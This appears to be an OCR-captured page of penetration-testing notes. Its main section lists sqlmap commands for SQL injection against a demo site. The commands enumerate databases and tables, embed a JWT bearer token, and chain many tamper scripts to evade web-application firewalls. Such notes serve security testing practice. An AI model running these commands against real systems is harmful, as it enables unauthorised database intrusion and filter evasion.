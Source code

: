 Selenium login selector:
User
Password
Detect Second Factor



\section{SQL Injection Test}


\begin{lstlisting}[numbers=none]
	sudo apt-get install sqlmap


	sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
	
	
	sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs   --headers= "Authorization: Bearer: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdWQiOiIxIiwianRpIjoiOTZhMTJlZjcxNGUzZmUwMTdlOWZiMzZkOTZiMTBkZjVjNDIwYTQ3OWU5N2IwYjRmNGNhNDE3MTM5MzZlNzNjOWUwODk0ZDFjZTFlMjVmMTQiLCJpYXQiOjE2NjEyNzY5MjAuMDY5MDgxLCJuYmYiOjE2NjEyNzY5MjAuMDY5MDgzLCJleHAiOjE2OTI4MTI5MjAuMDY1MjQsInN1YiI6IjE3Iiwic2NvcGVzIjpbXX0.gJmnuUp03Y0ZL_3enF3frFLWppUfN5GIEk-xGbB4YZFulWXBeYglBxMu6vCpCZ-hGP0HqeeGYGUKUgUTJmI3eyhyln-NpDh2vqc50Dy7BEwMPGRl4BEHVGJrlQ2O6G_AOvCFP977SJS4vcUrn4ZtO9jigywy0-OTm8_z-M9gC-vfP-WYZ6hx-_QdFOzTZBYpbtgMxIaUh38ysnhsSsUSH-eD7kUJQmC822Xc9qkxwhkK3VNVfMUJByM3xi2gVtmCvtOFXzMejwkdiiut6bZtLNNxZT9KIxjL7OzD87jkIiyWnNFO5c_krp4GEQM1cYmTgfS10M-IR2hnhBHAXXj46lPpGkjNkqindspxDliVRpV78PVeZlkkM0q3Np9Q_-92pSlQkEVR-0xlAf5z2OhuGfYd0FuhVlDFYu5BNwer71QJX9H0vCTYnseA_LFd4GxKm9YiLey8SBXid84dJ0fiH5JF1rq64oiIOVmTnO198mEYhGIYy5UQH-HogKIGGUL2Hi0TOzW24PJnZBrMe_YY1HLsk6BPg-xfaBqbDXxMJxdJ1-vFeU200Gtxfo9crJ11wKwvWy90Q230hUXWCKNaRKeLNcKv9RWQq2_uCUjNAzcuGZsq69AwfYQLc4MvOcW5QZBt_UVARyGVSBytLOJykNWjIUqjCuXp7PpQ6BpmgEc" --method=POST --proxy="http://127.0.0.1:8080"
	

	sqlmap -r request.txt  --proxy="http://172.24.176.1:8080" --random-agent --level 2 --risk 2 --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --time-sec 15
	
sqlmap -r request.txt  --proxy="http://172.24.176.1:8080"
\end{lstlisting}



\section{Error handling}

